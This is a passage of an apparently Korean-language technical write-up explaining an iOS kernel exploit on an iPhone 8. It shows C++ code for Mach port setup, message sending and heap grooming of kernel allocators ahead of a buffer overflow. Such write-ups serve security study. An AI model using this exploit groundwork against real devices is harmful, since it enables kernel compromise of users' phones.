 그러면 이제 `POP_PORT` 매크로로 하나씩 포트를 가져올 수 있다.

```cpp
// setup 200 ports for later use
for (int i = 0; i < 200; i++) {
    ports[i] = new_mach_port();
}
int port_i = 0;

#define POP_PORT() ports[port_i++]
```

## 힙 그루밍 (Heap Grooming)

**익스플로잇되는 과정을 더 자세히 살펴볼 수 있도록 
`ENABLE_HELPER` 매크로 부분에 코드를 추가해놓았다.** 

**해당 부분을 활성화시키면, 어느 주소에 커널메모리가 할당된건지 쉽게 알 수 있다.**

코드를 보았을떄, 익스플로잇 하기전에 앞서 힙 그루밍을 수행하는 단계로 보여진다.

힙 그루밍(Heap Grooming)이란, 할당자 allocator의 동작을 조작해 힙 레이아웃을 제어하며, 이후 취약점을 이용할때 원하는 데이터가 특정위치에 만들도록 하는 기법을 말한다.

커널 한 페이지 크기가 4K인지, 16K인지에 따라 커널 힙 공격이 다르게 이루어지는데, 
현재 시연되는 아이폰8 기기는 16K이다.

생성되었던 각 10개의 포트로 10MB씩 포트 메시지를 할당시키고,
할당된 영역을 구분하기 위해 **0x72** 또는 **0x74** 바이트 버퍼들로 채워지게끔 만들었다.

```cpp
kern_return_t send_message(mach_port_t destination, void *buffer, mach_msg_size_t size) {
    mach_msg_size_t msg_size = sizeof(struct simple_msg) + size;
    struct simple_msg *msg = malloc(msg_size);
    
    memset(msg, 0, sizeof(struct simple_msg));
    
    msg->hdr.msgh_remote_port = destination;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = msg_size;
    
    memcpy(&msg->buf[0], buffer, size);
    
    kern_return_t ret = mach_msg(&msg->hdr, MACH_SEND_MSG, msg_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        printf("[-] failed to send message\n");
        mach_port_destroy(mach_task_self(), destination);
        free(msg);
        return ret;
    }
    free(msg);
    return KERN_SUCCESS;
}

...

// ----------- heap pre-exploit setup ----------- //
    INFO("Doing stage 0 heap setup\n");

	// fill kalloc_map so new allocations are always done in kernel_map (where our buffer that will get overflowed is)
    mach_port_t saved_ports[10];
    mach_msg_size_t msg_size = message_size_for_kalloc_size(7 * pagesize) - sizeof(struct simple_msg);
    data = calloc(1, msg_size);
```